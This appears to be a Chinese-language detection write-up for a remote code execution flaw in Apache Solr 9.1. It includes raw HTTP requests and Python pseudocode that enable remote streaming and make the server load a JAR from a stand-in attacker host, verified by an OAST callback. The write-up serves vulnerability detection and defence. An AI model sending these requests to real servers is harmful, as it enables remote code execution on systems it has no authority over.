

# Apache Solr 9.1 远程代码执行漏洞（apache-solr-rce）

## 漏洞简介
Apache Solr 9.1 存在远程代码执行（RCE）漏洞，攻击者可通过配置接口和流式处理功能，利用外部 JAR 加载机制实现任意代码执行。

## 影响范围
- 受影响产品：Apache Solr 9.1

## 漏洞原理
攻击者可通过未授权访问配置接口，开启 `requestDispatcher.requestParsers.enableRemoteStreaming`，随后利用 `stream.url` 参数加载远程恶意 JAR 文件，触发任意代码执行。

## 利用方式与攻击流程
1. 攻击者向 `/config` 接口发送请求，开启远程流式处理功能。
2. 利用 `debug/dump?param=ContentStreams` 接口，传入 `stream.url` 指向恶意 JAR。
3. 目标服务器加载并执行恶意代码。

## 探测原理与流程
### 请求包示例
1. 开启远程流式处理：
```http
POST /solr/gettingstarted_shard1_replica_n1/config HTTP/1.1
Host: target.com
Content-Type: application/json

{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```
2. 触发远程加载：
```http
POST /solr/gettingstarted_shard2_replica_n1/debug/dump?param=ContentStreams HTTP/1.1
Host: target.com
Content-Type: multipart/form-data; boundary=------------------------5897997e44b07bf9

--------------------------5897997e44b07bf9
Content-Disposition: form-data; name="stream.url"

jar:http://attacker-oast-url/test.jar?!/Test.class
--------------------------5897997e44b07bf9--
```

### 响应与判定逻辑
- OAST/Interactsh 平台收到 HTTP 请求，User-Agent 包含 Java。

### 伪代码
```python
# 步骤1：开启远程流式处理
requests.post('http://target.com/solr/gettingstarted_shard1_replica_n1/config', json={"set-property": {"requestDispatcher.requestParsers.enableRemoteStreaming":True}})
# 步骤2：触发远程加载
resp = requests.post('http://target.com/solr/gettingstarted_shard2_replica_n1/debug/dump?param=ContentStreams', files={"stream.url": "jar:http://attacker-oast-url/test.jar?!/Test.class"})
# 步骤3：OAST 监听
if oast_platform.has_interaction(user_agent_contains="Java"):
    print('存在 RCE 漏洞')
```

### Mermaid 流程图


## 参考链接
- [360 Noah Blog 漏洞分析](https://web.archive.org/web/20230414152023/https://noahblog.360.cn/apache-solr-rce/) 